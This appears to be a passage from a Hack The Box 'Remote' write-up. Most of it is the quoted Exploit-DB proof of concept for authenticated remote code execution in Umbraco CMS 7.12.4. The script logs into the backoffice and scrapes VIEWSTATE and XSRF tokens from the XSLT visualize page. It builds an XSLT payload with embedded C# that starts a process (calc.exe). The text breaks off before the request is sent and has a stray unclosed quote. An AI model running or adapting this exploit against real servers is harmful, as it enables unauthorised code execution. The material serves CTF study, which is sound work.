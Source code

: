 
![]({{ "/images/htb/remote/umbracoversionX.png" | relative_url }})

***

> [Exploit](https://www.exploit-db.com/exploits/46153)

```
# Exploit Title: Umbraco CMS - Remote Code Execution by authenticated administrators
# Dork: N/A
# Date: 2019-01-13
# Exploit Author: Gregory DRAPERI & Hugo BOUTINON
# Vendor Homepage: http://www.umbraco.com/
# Software Link: https://our.umbraco.com/download/releases
# Version: 7.12.4
# Category: Webapps
# Tested on: Windows IIS
# CVE: N/A


import requests;

from bs4 import BeautifulSoup;

def print_dict(dico):
    print(dico.items());
    
print("Start");

# Execute a calc for the PoC
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = ""; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "calc.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> ';

login = "XXXX;
password="XXXX";
host = "XXXX";

# Step 1 - Get Main page
s = requests.session()
url_main =host+"/umbraco/";
r1 = s.get(url_main);
print_dict(r1.cookies);

# Step 2 - Process Login
url_login = host+"/umbraco/backoffice/UmbracoApi/Authentication/PostLogin";
loginfo = {"username":login,"password":password};
r2 = s.post(url_login,json=loginfo);

# Step 3 - Go to vulnerable web page
url_xslt = host+"/umbraco/developer/Xslt/xsltVisualize.aspx";
r3 = s.get(url_xslt);

soup = BeautifulSoup(r3.text, 'html.parser');
VIEWSTATE = soup.find(id="__VIEWSTATE")['value'];
VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value'];
UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN'];
headers = {'UMB-XSRF-TOKEN':UMBXSRFTOKEN};
```